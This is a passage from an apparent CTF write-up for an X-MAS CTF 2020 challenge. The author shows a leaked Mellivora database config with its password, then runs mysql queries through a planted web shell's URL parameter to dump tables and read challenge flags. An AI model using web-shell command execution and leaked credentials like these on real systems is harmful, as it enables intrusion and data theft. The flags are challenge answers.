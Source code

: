```
 * both the default settings and the hard-coded
 * user defined settings.
 *
 */

Config::set('MELLIVORA_CONFIG_DB_ENGINE', 'mysql');
Config::set('MELLIVORA_CONFIG_DB_HOST', 'localhost');
Config::set('MELLIVORA_CONFIG_DB_PORT', 3306);
Config::set('MELLIVORA_CONFIG_DB_NAME', 'mellivora');
Config::set('MELLIVORA_CONFIG_DB_USER', 'mellivora');
Config::set('MELLIVORA_CONFIG_DB_PASSWORD', 'rac9138cn98ascnascud');
```
When I checked using a web shell, I could see that the Database configuration file exists. Then, let's connect to the DB using the mysql command.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-19%20오전%207.40.25.png?raw=true)
[+] If you know the database name, user name, and password, you can run the query as above using the -e option of the mysql command and see the result immediately.
```
http://challs.xmas.htsp.ro:3050/data/pyburp.php?x=mysql -D mellivora -u mellivora -prac9138cn98ascnascud -e "show tables;"
output => Tables_in_mellivora categories challenges cookie_tokens countries exceptions files hints ip_log news reset_password submissions two_factor_auth user_types users

http://challs.xmas.htsp.ro:3050/data/pyburp.php?x=mysql -D mellivora -u mellivora -prac9138cn98ascnascud -e "select * from challenges"
output => 
id	added	added_by	title	category	description	exposed	available_from	available_until	flag	case_insensitive	automark	points	initial_points	minimum_points	solve_decay	solves	num_attempts_allowed	min_seconds_between_submissions	relies_on
1	1606078385	1	Brutus	1	Everyone hates Brutus! But does Brutus hate everyone? Who knows? Or rather, who cares?! What we care about here is the flag. Nothing more.
\n
\nLink: [url]http://challs.xmas.htsp.ro:3050[/url]	1	1584699200	1617235206	pwngyanctf{we_dont_remember_the_actual_flag_:(}	0	1	500	500	50	100	2	0	5	0
2	1606081056	1	Hard Challenge	1	Now it's time for a ramp-up in difficulty. You thought Brutus was hard? Ha! Check this one out then, punk.
\n
\nLink: [url]http://challs.xmas.htsp.ro:3051[/url]	1	1584699200	1617235206	X-MAS{Brutus_why_d1d_y0u_h4v3_t0_h4v3_RCE_113c41afe0}	0	1	500	500	50	100	0	0	5	0
3	1606081136	1	Hello World!	2	Welcome to PWNgyan CTF 2020!
\n
\n[b]pwngyanctf{H3ll0_H4ckerz_3141cc5f}[/b]	1	1584699200	1617235206	pwngyanctf{H3ll0_H4ckerz_3141cc5f}	0	1	10	10	10	1	3	0	5	0

```
When I ran through the database using the mysql command, there was a flag of the table called challenges.

`FLAG : X-MAS{Brutus_why_d1d_y0u_h4v3_t0_h4v3_RCE_113c41afe0}`

---
